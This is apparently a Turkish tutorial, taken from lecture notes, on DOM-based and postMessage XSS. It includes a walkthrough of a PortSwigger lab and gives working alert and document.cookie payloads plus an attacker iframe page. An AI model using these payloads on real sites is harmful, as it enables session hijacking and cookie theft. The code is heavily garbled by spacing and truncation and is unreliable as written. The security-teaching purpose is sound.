

XSS Güvenlik Zafiyeti Serüvenine Devam Part-2 | MDISEC Neler Anlattı #8

XSS Güvenlik zafiyeti ile ilgili öğrendiğimiz konulara devam edelim. Bu yazıda da XSS konusuna devam edeceğiz.

Elimizde bir browser olduğunu düşünelim. Bu browser bir web sitesinden HTTP Response’u almaktadır. Bu Response alındıktan sonra browser, içerisindeki HTML, CSS, JavaScript kodlarını çalıştırır. Bir önceki yazıda bunları ayrıntılı bir şekilde ele almıştık. XSS dediğimiz zaman aklımıza browser’ın gelmesi gerektiğinden bahsetmiştik. XSS konusunun backend ile tamaman ilişkisiz olmasa da doğrudan bağlantılı olmadığını görmüştük. Burada broser içerisindeki önemli noktalardan biri de yazılım geliştiricilerin kendi uyguladığı JavaScript kodlarının ne yaptığıyla ilgilidir. Uygulamanın çalışma düzenine göre bizim değiştirip düzenleyebileceğimiz kısımlar sayesinde çeşitli yollarla hak sahipliği elde edebiliriz.

tarayıcı ve HTTP Resonse

DOM XSS

Buradaki kodlarda sizin kontrol edebildiğiniz bir değişken, yazılım geliştiricinin uyguladığı bir JavaScript kodunun içerisinde kullanılmakta.

<ht ml >

`  `<di v  i d="msgAr ea">   </ di v>

`  `<scr i pt >

`    `user name  =  get User name( ) ;  / / API ' den  mevcut  user ' ı n  i smi ni n  get i r i l mesi     $( "msgAr ea") . ht ml ( ' Mer haba  ' +  user name) ;

`    `document . get El ement ByI d( ' msgAr ea' ) . i nner HTML  =  "Mer haba  "+user name

`  `</ scr i pt >

</ ht ml >

Burada yaşananları bir örnek sistem üzerinden ele alacak olursak, uygulamadaki kullanıcı kayıt olurken kullanıcı adı ya da herhangi bir alanı doldurma yeteneğine sahiptir. Kullanıcının doldurduğu bu alan veritabanına kaydedilir. Veritabanına kayıt işleminden sonra da web uygulaması bu kullanıcının bilgilerini göstermek istediği anda buradaki veriler yularıdaki JavaScript kodunda da olduğu gibi DOM’u manipüle eder yani DOM’u günceller. Yani sizin dış dünyadan kontrol edebildiğiniz değişken ile burada DOM (Document Object Model) güncellenmiş olur.

DOM XSS Temeli

DOM Güncellendiğinde ise burada sizin dış dünyadan kontrol edebildiğiniz değişken ekrana direkt olarak verilmemektedir. DOM oluştuktan sonra belirli şartlara ve durumlara göre veritabanındaki kayıt ekrana getirilir ve JavaScript tarafından DOM güncellenmiş olur.

Yukarıdaki örnek üzerinden düşünecek olursak ‘username’ alanına “<svg onload=alert(1)>” gibi bir XSS payload’ı yazarsanız bu bilgi DOM’a backend tarafından doğrudan koyulmamaktadır, ilgili şartlara göre JavaScript tarafından koyulmaktadır. Dolayısıyla kodlar okunarak hangi kısmın nereyi güncellediği tespit edilmelidir.

<ht ml >

`  `<di v  i d="msgAr ea">

`     `Mer haba  <svg  onl oad=al er t ( 1) >   </ di v>

`  `<scr i pt >

`    `user name  =  get User name( ) ;  / / API ' den  mevcut  user ' ı n  i smi ni n  get i r i l mesi     $( "msgAr ea") . ht ml ( ' Mer haba  ' +  user name) ;

`    `document . get El ement ByI d( ' msgAr ea' ) . i nner HTML  = 

`     `"Mer haba  <svg  onl oad=al er t ( 1) ">;

`  `</ scr i pt >

</ ht ml >

Şöyle bir güvenlik açığıyla da karşılaşabiliriz. Örneğin kullanıcı adınız uygulama tarafından buraya doğrudan yazılsın ve encoding işlemi de gerçekleşmiş olsun. Burada ‘username’ alanı ile herhangi bir XSS açığı elde edemezsiniz. Ancak kullanıcı adınız başka bir yerde unescape edildikten sonra HTML’de kullanılıyor olabilir.

user name  =  "i l ker %3c"

$( "msgAr ea") . ht ml ( ' Mer haba  ' +  unescape( user name) ) ;

XSS açığını ararken tüm kodları baştan sona okumak gerekmeyebilir. Öncelikli olarak bakılması gereken yerler vardır. DOM’un güncellendiği noktalara bakmak gerekmektedir.

Örneğin “insecure jquery functions” yani gücensiz jquery fonksiyonlarının neler olduğunu bilmek gerekmektedir. Jquery’nin hangi fonksiyonlarının DOM güncellemelerini güvensiz bir şekilde gerçekleştirdiğini bilmek gerekir. Tüm kodu okumak yerine öncelikli olarak bunlara dikkat edilmelidir.

Saf e

- t ext ( )
- at t r ( )  / /  st i l l  needs  t o  be  car ef ul  when  used  i n  an  hr ef
- pr op( )
- val ( )

Unsaf e

$( "ht ml  code")

- ht ml ( )
- append\*( )
- i nser t \*( )
- pr epend\*( )
- wr ap\*( )
- bef or e( )
- af t er ( )

kaynak:  ( ht t ps: / / coder wal l . com/ p/ h5l ql a/ saf e- vs- unsaf e- j quer y- met hods)

Public Firing Range

Buradaki site üzerinden XSS ile ilgili tüm durumlara yönelik pratik yapabilirsiniz. Yazının ilerleyen kısımlarında biz de bu siteden yararlanacağız. ([Ulaşmak için bağlantıya tıklanyınız)](https://public-firing-range.appspot.com/)

PostMessage

Bir web uygulaması başka bir web uygulamasını iframe ile açarsa, bu iki iframe’in birbiriyle güvenli bir şekilde iletişim kurmasını sağlamaktadır.

Wi ndow:  post Message( )  met hod

The  wi ndow. post Message( )  met hod  saf el y  enabl es  cr oss- or i gi n  communi cat i on bet ween  Wi ndow  obj ect s;  e. g. ,  bet ween  a  page  and  a  pop- up  t hat  i t  spawned, or  bet ween  a  page  and  an  i f r ame  embedded  wi t hi n  i t .

Nor mal l y,  scr i pt s  on  di f f er ent  pages  ar e  al l owed  t o  access  each  ot her  i f and  onl y  i f  t he  pages  t hey  or i gi nat e  f r om  shar e  t he  same  pr ot ocol , 

por t  number ,  and  host  ( al so  known  as  t he  "same- or i gi n  pol i cy") . 

wi ndow. post Message( )  pr ovi des  a  cont r ol l ed  mechani sm  t o  secur el y 

ci r cumvent  t hi s  r est r i ct i on  ( i f  used  pr oper l y) .

Br oadl y,  one  wi ndow  may  obt ai n  a  r ef er ence  t o  anot her 

( e. g. ,  vi a  t ar get Wi ndow  =  wi ndow. opener ) ,  and  t hen  di spat ch a  MessageEvent  on  i t  wi t h  t ar get Wi ndow. post Message( ) . 

The  r ecei vi ng  wi ndow  i s  t hen  f r ee  t o  handl e  t hi s  event 

as  needed.  The  ar gument s  passed  t o  wi ndow. post Message( ) 

( i . e. ,  t he  "message")  ar e  exposed  t o  t he  r ecei vi ng  wi ndow 

t hr ough  t he  event  obj ect .

Kaynak:  ht t ps: / / devel oper . mozi l l a. or g/ en- US/ docs/ Web/ API / Wi ndow/ post Message

Şimdi de bununla ilgili bir örneğe bakalım. Bahsettiğimiz sitedeki bir uygulama örneği üzerinden ilerleyelim. (ht[tps://public-firing- range.appspot.com/dom/toxicdom/postMessage/innerHtml)](https://public-firing-range.appspot.com/dom/toxicdom/postMessage/innerHtml)

Buradaki adreste sayfa kaynağını görüntülediğimizde bu web sitesinde çalışan JavaScript kodlarını görmekteyiz. JavaScript ile bir EventListener eklenmiş durumda, buradaki EventListener kendisine bir mesaj geldiğinde bu mesajı alır ve postMessageHandler isimli fonksiyona gönderir. Bu sayfayı iframe ile açan başka bir web sitesinin bu web sitesine gönderdiği event mesajını alan fonksiyon bu içeriğin json olmasını beklemektedir. Aldığı bu json’ı parse ettiğinde oluşan içeriği alıp yeni oluşturduğu div’in içerisine HTML şeklinde yerleştirir. Daha sonra da oluşan bu div’i sayfaya eklemektedir. Burada da XSS meydana gelir.

Sitemizin sayfa kaynağı:

<ht ml >

`   `<head><t i t l e>Toxi c  DOM</ t i t l e></ head>

`   `<body>

`     `<scr i pt >

`       `var  post MessageHandl er  =  f unct i on( msg)  {    var  cont ent  =  JSON. par se( msg. dat a) ;

`   `var  di v  =  document . cr eat eEl ement ( ' di v' ) ;

`   `di v. i nner HTML  =  cont ent . ht ml ;

`   `document . document El ement . appendChi l d( di v) ;

};

wi ndow. addEvent Li st ener ( ' message' ,  post MessageHandl er ,  f al se) ;

`     `</ scr i pt >    </ body>

</ ht ml >

Burada XSS’in nasıl meydana geldiğini inceleyelim;

Bu noktada browser’ın hacker.com’a geldiğini düşünelim. hacker.com hacker’ın kendi geliştirdiği bir sitedir. hacker.com buradaki browser tarafından çağrılmaktadır. Ancak hacker.com tarafında bir iframe açtırılacak. Açılan iframe’de ise az önce gördüğümüz XSS bulunan url olacak. Iframe ile bu bağlantı açılacak. Iframe ile açmamızın sebebi ise bu web sitesinin içeriğinde kendisini iframe ile açan kişinin gönderdiği mesajları dinleyen ve buna göre aksiyon alan bir JavaScript kodunun olmasıdır. Bu yüzden iframe ile çağırmaktayız. hacker.com’da browser tarafından iframe ile açtığımız bağlantıya bir json verisi gönderilecek ve alınan bu json parse edildikten sonra ‘content’ elde edilecektir. Daha sonra bu content içeriği innerHTML ile direkt olarak div içerisine yazdırılır. Burada innerHTML kullanımı tehlikelidir.

innerHTML in neden tehlikeli olduğunu da inceleyelim;

Yukarıdaki yapıyı simüle ettiğimizde aşağıdaki gibi bir yapıda kolaylıkla XSS açığının oluşabileceğini tespit edebiliriz. Bu kısımda innerHTML ile div içerisine yerleştirilen input’u kendimiz yönetebildiğimiz için XSS’e de davetiye çıkmış olur.

<ht ml >

`   `<scr i pt >

`       `var  di v  =  document . cr eat eEl ement ( "di v") ;

`       `di v. i nner HTML  =  "<svg  onl oad=al er t ( 1) >";

`       `document . document El ement . appendChi l d( di v) ;    </ scr i pt >

`   `<body>

`     `<di v  i d="t est "></ di v>

`   `</ body>

</ ht ml >

Bu kodu bir HTML dosyası olarak kaydedip tarayıcımızda çalıştırınca XSS’in meydana geldiğini görebiliriz. Dolayısıyla innerHTML böyle kullanılınca pek de güvenli değildir.

innerHTML kullanımı ile XSS’in meydana gelmesi

Şimdi de iframe ile bu sayfayı açalım. Oluşturduğumuz html sayfasını hacker.com olarak düşünelim. Yani burası hacker’a ait olan sayfadır. Ancak bu sayfayı ziyaret ettiğinizde aslında burada açılan iframe sizi XSS açığı bulunan asıl hedef siteye götürecektir. Örneğin burası facebook olabilir.

<ht ml >

`   `<body>

`     `<i f r ame 

`       `sr c="ht t ps: / / publ i c- f i r i ng- r ange. appspot . com         / dom/ t oxi cdom/ post Message/ i nner Ht ml ">

`     `</ i f r ame>    </ body>

</ ht ml >

Ancak buradaki iframe’i bu şekilde açmak yerine daha dinamik bir şekilde oluşturabiliriz. Buradaki kod yapısında yorum satırları ile birlikte ne yaptığımızı daha net anlayabilirsiniz.

<ht ml >

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `/ / özet l e  i f r ame  i l e  i st edi ği mi z  sayf ayı  açt ı r ı p 

`         `/ / i f r ame  yükl enmesi  bi t t i kt en  sonr a 

`         `/ / bu  f r ame  i çer i si ne  bi r  post Message  gönder mekt eyi z. 

`         `/ / Bu  mesaj ı  da  ' sel am'  ol ar ak  bel i r l edi k  bu  kodl ar  i l e. 

`         `/ / t ar get  i l e  bu  i d  al ı nı r .

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ; 

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

`             `t ar get . cont ent Wi ndow. post Message( ' sel am' , ' \*' ) ; 

`             `/ / post Message  f r ame' l er  ar ası  i l et i şi mi  sağl amakt aydı .

}) ; 

/ / bu  i f r ame  i l e  i l gi l i  t üm  ayar l amal ar ı  yapt ı kt an  sonr a 

/ /  bur aya  bi r  sr c  t anı mı  yapmal ı yı z. 

/ / yani  gi t mesi  ger eken  adr esi  t anı ml amal ı yı z.

t ar get . sr c=

"ht t ps: / / publ i c- f i r i ng- r ange. appspot . com/ dom/ t oxi cdom/ post Message/ i nner H

`         `/ / bu  i f r ame  yükl enmesi ni  kont r ol  edi yor uz

`         `/ / yani  bu  sayf ada  bu  i f r ame' ni n  yükl enmesi  bekl emek  zor undayı z.

`         `/ / bu  i f r ame  yükl endi ği nde  bahsedi l en  kodl ar ı n  br owser  t ar af ı ndan

`         `/ / çal ı şt ı r ı l ması  l azı mdı r .  o  yüzden  sayf anı n  yükl enmesi ni  bekl i yor uz.      </ scr i pt >

</ ht ml >

Burada yazdığımız HTML dosyasını kaydedip tarayıcımızda açtığımızda konsol ekranında bu şekilde bir hata ile karşılaştığımızı görürüz. Burada JSON objesi yerine string bir değer gönderdiğimiz için parse işlemi esnasında hata ile karşılaştık. Dolayısıyla burada string bir değer yerine JSON objesi göndermeliyiz. JSON içerisinde de ‘html’ diye bir özellik olmalıdır.

karşılaştığımız hata

Hatanın çözümü için string ifade yerine JSON objesini göndereceğimiz yeni kod bloğu bu şekilde;

<ht ml >

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

`             `var  payl oad  =  {' ht ml ' : ' x' };

`             `t ar get . cont ent Wi ndow. post Message( JSON. st r i ngi f y( payl oad) , ' \*' ) ;      /

`         `}) ;

`         `t ar get . sr c=

`         `"ht t ps: / / publ i c- f i r i ng- r ange. appspot . com/ dom/ t oxi cdom/ post Message/ i nner H      </ scr i pt >

</ ht ml >

Artık bu sayede postMessage ile istediğimiz mesajı iletebildiğimizi teyit edebiliriz.

postMessage ile istenilen mesajın iletilmesi

Özetleyecek olursag ‘target.src’ kısmında belirttiğimiz bir hedef site bulduk. Bu hedef sitedeki JavaScript kodları kendisini iframe ile açan bir sayfadan mesaj almakta ve aldığı bu mesajdaki veriyi parse ettikten sonra bir div element’i oluşturmakta daha sonra da div’in içeriğine sizden aldığı data’yı yazmaktadır. Biz de burada kendi sitemizde bu hedef siteyi iframe ile yükletip istediğimiz mesajı gönderiyoruz. Burada artık XSS’in meydana geldiğini bu kod yapısı sayesinde tespit edebiliriz.

<ht ml >

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

`             `var  payl oad  =  {' ht ml ' : ' <i mg  sr c=x  oner r or =al er t ( 1) >' };

`             `t ar get . cont ent Wi ndow. post Message( JSON. st r i ngi f y( payl oad) , ' \*' ) ; 

`             `/ / post Message  f r ame' l er  ar ası  i l et i şi mi  sağl amakt aydı .           

`         `}) ; 

`         `t ar get . sr c=

`         `"ht t ps: / / publ i c- f i r i ng- r ange. appspot . com/ dom/ t oxi cdom/ post Message/ i nner H      </ scr i pt >

</ ht ml >

Bu sayede artık XSS payload’ımıza göre sayfada yüklenmeye çalışılan resim hata vereceği için alert(1) pop-up uyarısı başarıyla gösterilmiş durumda.

XSS Payload’ının çalışması

Burada çalışan pop-up kendi web sitemizin içerisinde olan bir şey değildir. Iframe ile yüklettiğimiz sayfanın domain’inde çalışmaktadır. Bunu da teyit etmek için alert(1) yazdırmak yerine ‘document.domain’ yazdırarak tespit edebiliriz.

<ht ml >

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

`             `var  payl oad  =  {' ht ml ' : ' <i mg  sr c=x  oner r or =al er t ( document . domai n) >' };              t ar get . cont ent Wi ndow. post Message( JSON. st r i ngi f y( payl oad) , ' \*' ) ; 

`             `/ / post Message  f r ame' l er  ar ası  i l et i şi mi  sağl amakt aydı .           

`         `}) ; 

`         `t ar get . sr c=

`         `"ht t ps: / / publ i c- f i r i ng- r ange. appspot . com/ dom/ t oxi cdom/ post Message/ i nner H      </ scr i pt >

</ ht ml >

Hangi domain’de çalıştığını da bu pop-up ile görmüş oluruz.

XSS’in meydana geldiği domain

Bu aşamadan sonra yapacağımız şey de şu şekildedir;

Bir web sitesine buradaki HTML içeriğini koyup istediğimiz kişilere gönderebiliriz. Gönderdiğimiz kişi de bu bağlantıya tıkladığında an itibariyle ‘hacker.com’ hedeflediği web sitesindeki bağlantıyı size JavaScript ile iframe içerisinde açtırmış olur. Browser’ınız da bu adrese giden tüm cookie’leri request’e ekleyecektir. Bu adrese kendi kullanıcı bilgilerinizle gitmiş olursunuz. Ancak gittiğiniz zafiyetli adresteki yazılımın kodlarına göre iframe’den gelen verinin içeriği Javascript ile güvensiz bir şekilde DOM’a bir div element’i eklenmektedir. Bizim burada yapmaya çalıştığımız şey de kullanıcının tarayıcısında bu web sitesini iframe ile açtırıp buraya bir postMessage göndermektir.

Bu problemin engellenme yöntemi de postMessage’nin nereden geldiğini tespit ederek bildiğimiz web uygulamaları dışında hiçbir kaynaktan veri almamaktır. Yani buradaki temel sorun postMessage’lerin güvenli bir kaynaktan gelip gelmediğini kontrol etmemekten kaynaklanmaktadır. Ayrıca sayfanın tüm içeriğini sıfırdan innerHTML’e vermek yerine data() gibi metodlar ile o sayfanın data’sını değiştirebilirsiniz. Çünkü innerHTML kullandığınızda gelen data tarayıcı tarafından tekrar yorumlanır. Bu şekilde istenilen JavaScript kodları da çalıştırılmış olur.

PortSwigger Lab: DOM XSS using web messages

Öğrendiğimiz bilgileri pratik ortamda uygulayabilmek için PortSwigger’ın oluşturduğu zafiyetli sistemler üzerinden ilerleyebiliriz.

Lab: DOM XSS using web messages - başlangıç ekranı

Lab ortamına eriştikten sonra da bizleri bu şekilde bir anasayfa karşılamaktadır.

Sitenin arka planında neler olup bittiğini görebilmek için öncelikle sayfa kaynağını görüntüleyelim. Sayfa kaynağını görüntülediğimizde 52. satırda gelen verinin data’sının innerHTML ile ekrana verilmekte olduğunu görebiliriz.

<scr i pt >

`     `wi ndow. addEvent Li st ener ( ' message' ,  f unct i on( e)  {

`         `document . get El ement ByI d( ' ads' ) . i nner HTML  =  e. dat a;      })

</ scr i pt >

Bu lab’ı çözerken de yukarıda gösterdiğimiz örnekler üzerinden ilerleyebiliriz. Oluşturacağımız html sayfasında değiştirmemiz gerken kısım target sitesinin adresidir. Burada lab ortamının adresini yazmalıyız.

<ht ml >

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

`             `t ar get . cont ent Wi ndow. post Message( "asdasd", ' \*' ) ; 

`             `/ / post Message  f r ame' l er  ar ası  i l et i şi mi  sağl amakt aydı .                    }) ; 

`         `t ar get . sr c=

`         `"ht t ps: / / 0add005f 042c0f 178189085900c9006b. web- secur i t y- academy. net / "

`     `</ scr i pt > </ ht ml >

Oluşturduğumuz HTML sayfası sayesinde hedef web uygulamasını iframe ile açabildik.

Bu kısımdan sonra da lab’ın çözülmesi için yapmamız gereken ise print() fonksiyonunu çağırmak ya da document.cookie gibi bir çıktı elde etmek olacaktır. Buna yönelik bir XSS Payload’ı yazabiliriz.

<ht ml >

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `/ / bur adan  i f r ame  i çer i si ne  bi r  mesaj  gönder eceği z

`             `t ar get . cont ent Wi ndow. post Message(

`                             `"<i mg  sr c=x  oner r or =al er t ( document . cooki e) >", ' \*' ) ;               / / post Message  f r ame' l er  ar ası  i l et i şi mi  sağl amakt aydı .           

`         `}) ; 

`         `t ar get . sr c=

`         `"ht t ps: / / 0add005f 042c0f 178189085900c9006b. web- secur i t y- academy. net / "

`     `</ scr i pt >

</ ht ml >

Bu yapı sayesinde XSS oluştuğunu artık görebiliriz.

XSS payload’ının çalışması

Artık bu kısımdan sonra bizden isteneni yapalım. Oluşturduğumuz HTML sayfasının içeriğini PortSigger Academy Lab sayfasında exploit server ile çalıştırabiliriz. Öncelikle bu kısımdan exploit server’a gitmemiz gerekmektedir.

exploit server bağlantısı

Bu sayfaya geldikten sonra da hazırladığımız HTML sayfasını hedef kurban sisteme gönderebiliriz.

<ht ml >

`     `<i f r ame  i d="t ar get "  sr c="">

</ i f r ame>

`     `<scr i pt >

`         `var  t ar get  =  document . get El ement ByI d( ' t ar get ' ) ;

`         `t ar get . addEvent Li st ener ( ' l oad' ,  f unct i on( ) {

`             `t ar get . cont ent Wi ndow. post Message(

`                             `"<i mg  sr c=x  oner r or =al er t ( document . cooki e) >", ' \*' ) ;          }) ; 

`         `t ar get . sr c=

`         `"ht t ps: / / 0add005f 042c0f 178189085900c9006b. web- secur i t y- academy. net / ";      </ scr i pt >

</ ht ml >

exploit server ile XSS Payload’ının gönderilmesi

Bunları yaptıktan sonra artık başarıyla çözüme ulaştığımızı görebiliriz :)

‘DOM XSS using web messages’ lab ortamının başarıyla çözülmesi

Neler Yaptık? Özetleyelim

Özetleyecek olursak bu sistemde bir kullanıcı olduğunu düşünelim. Bu kullanıcı hacker.com’a yani hacker’ın yönettiği web sitesine gitmektedir. Hacker.com’a giden kişinin tarayıcısına giden veri bu şekildedir, yani hacker.com bu içeriği dönmektedir;

<ht ml >

`   `<i f r ame  i d="t ar get "  sr c="">  </ i f r ame>

`   `<scr i pt >

`     `var  t ar get  =  document . get El ement ByI d( "t ar get ") ;

`     `t ar get . addEvent Li st ener ( "l oad",  f unct i on  ( )  {

`       `t ar get . cont ent Wi ndow. post Message(

`         `"<i mg  sr c=x  oner r or =al er t ( document . cooki e) >",          "\*"

`       `) ;

`     `}) ;

`     `t ar get . sr c  =

`       `"ht t ps: / / 0add005f 042c0f 178189085900c9006b. web- secur i t y- academy. net / ";    </ scr i pt >

</ ht ml >

hacker.com bu şekilde bir HTML içeriği dönünce de browser buradaki ‘target.src’ kısmında verilen adresi iframe ile açar. Bu adres de hedef sitenin adresidir, örneğin; hedef.com gibi düşünelim. Buraya bir HTTP Request’i gönderilir, kullanıcı oturumu açık ise tüm cookie’ler de bu HTTP request’ine eklenmiş olur. Ardından da hacker.com’daki JavaScript koduna göre bu sayfanın yüklenmesi tamamlandığında oradaki iframe’e bir postMessage gönderilir. Gönderilen postMessage içerisinde de bir XSS Payload’ı bulunmaktadır.Bu postMessage iletildiğinde ise hedef sitedeki JavaScript koduna göre gelen postMessage parse edilerek bir ‘content’ elde edilir. Oluşan ‘content’ yeni oluşturulan div’in element’ine innerHTML aracılığıyla yazılır. Bu şekilde sonuç olarak XSS açığı meydana gelmiş olur. Dolayısıyla hacker, kurban kullanıcının mevcut oturumu ile hedef siteye yönelik

istediği JavaScript kodunu çalıştırabilir hale gelmiş olur.

Tüm bu yaşananların modellendiği şekile de buradan ulaşabilirsiniz;

postMessage ile İlgili Yaşanan Olayların Modellenmesi

postMessage-tracker chrome extension

Bu adresteki chrome eklentisini kurduğunuz zaman ziyaret ettiğiniz web uygulamasındaki postMessage’ların dinlenip dinlenmediğini veya ne yapıldığını tespit edebilirsiniz. Potansiyel olarak XSS oluşabilecek noktaları rahatlıkla tespit edebilirsiniz.

Kaynak: <https://github.com/fransr/postMessage-tracker>

Kaynaklar:

1\. [Web Security 0x09 | XSS Güvenlik Zafiyeti Serüvenine Devam Part 2 — Mehmet İnce](https://www.youtube.com/watch?v=xXbDhyKo9B8)
